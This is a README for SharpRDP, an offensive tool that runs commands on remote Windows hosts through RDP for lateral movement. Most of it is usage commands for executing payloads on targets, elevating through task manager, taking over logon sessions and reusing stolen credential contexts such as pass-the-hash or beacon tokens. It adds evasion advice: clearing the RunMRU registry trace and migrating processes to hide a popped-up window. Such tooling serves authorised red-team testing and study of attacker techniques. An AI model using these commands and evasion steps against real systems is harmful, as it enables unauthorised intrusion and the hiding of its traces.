 

### SharpRDP - Remote Desktop Protocol Console Application for Authenticated Command Execution

#### Building
To compile open the project in Visual Studio and build for release. Two DLLs will be output to the Release directory, you do not need those because the DLLs are in the assembly.
If you do not want to use the provided DLLs you will need to .NET SDK to create the AxMSTSCLib.dll DLL. To create it you'll need to run aximp from the SDK on mstscax.dll. `%<SDK dir>%\aximp.exe %windir%\system32\mstscax.dll`. Those DLLs will need to be referenced by the project to get the Interop DLLs created.
You will also need to compress the DLLs with Deflate and name them AxInterop.MSTSCLib.dll.bin and Interop.MSTSCLib.dll.bin


#### Usage
```
Regular RDP connection and execution
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
```

```
Exec program with path containing space as child process of cmd or powershell with path
  SharpRDP.exe computername=target.domain command="'C:\Temp\some thing\file.exe'" username=domain\user password=password exec=cmd
```

```
Use restricted admin mode
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe"
```

```
Connect first host drives
  SharpRDP.exe computername=domain.target command="\\tsclient\C\Temp\file.exe" username=domain\user password=password connectdrive=true
```

```
Execute command elevated through Run Dialog - CURRENTLY BUGGED
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe" username=domain\user password=password elevated=winr
```

```
Execute command elevated through task manager
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password elevated=taskmgr
```

```
Add Network Level Authentication
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password nla=true
```

```
Ask to take over logon session
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password takeover=true
```

If restricted admin mode is enabled on the target do not specify any credentials and it will use the current user context. Can `PTH` or `make_token` in beacon or `runas /netonly` on a Windows system.

All execution starts with the Windows run dialog (Win+R). There will be a registry key created at `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` with the command that you executed. If you want to remove this you can use: [CleanRunMRU: Get or clear RunMRU values](https://github.com/0xthirteen/CleanRunMRU)

Keep in mind if you execute a program like msbuild (I'm sure there are others) a cmd window will pop up while the process is running. If you do it would probably be best to migrate the process and kill the original. 

The required DLLs are compiled into the assembly and app domain assembly resolve event is used. Because of the size of the DLLs they are compressed and decompressed at runtime (so they could meet beacon's 1MB size limit).

Blog about it found here [SharpRDP](https://0xthirteen.com/2020/01/21/revisiting-remote-desktop-lateral-movement/)

Also part of [MoveKit](https://github.com/0xthirteen/MoveKit)
